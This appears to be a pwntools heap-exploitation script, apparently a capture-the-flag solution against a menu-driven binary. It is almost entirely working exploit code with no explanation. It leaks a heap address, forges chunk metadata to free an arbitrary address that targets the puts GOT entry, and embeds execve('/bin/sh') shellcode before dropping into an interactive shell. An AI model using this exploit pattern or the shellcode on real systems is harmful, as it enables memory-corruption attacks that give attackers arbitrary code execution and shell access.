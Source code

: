 ```python
puts_got = 0x602018

# Leak top chunk
leave(8, 'A'*4)
change(0, 60, 'A'*40)
view(0)
r.recvuntil('A'*40)
x = r.recvline()[:-1]
heap = u64(x + '\x00'*(8-len(x))) - 0x18
log.info('heap : {}'.format(hex(heap)))

# Repair the heap struct
payload = 'A'*8 + p64(0)*2 + p64(0x3d0) + p64(0) + p64(heap+0x18)
change(0, 60, payload)

# Make another chunk and use overflow to make arbitratary free
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
leave(8, 'B'*4)
payload = 'A'*8
payload += p64(0)*2 + p64(0x31) + p64(heap+0xa8) + p64(puts_got-8)
payload += 'B'*8 + p64(0)*2 + p64(0x3a0) + p64(0) + p64(heap+0x48)
payload += p64(0)*3 + '\xeb\x16' +'\x00'*6 + p64(0)*2 + sc
change(0, len(payload)+4, payload)
remove(1)

r.interactive()
```
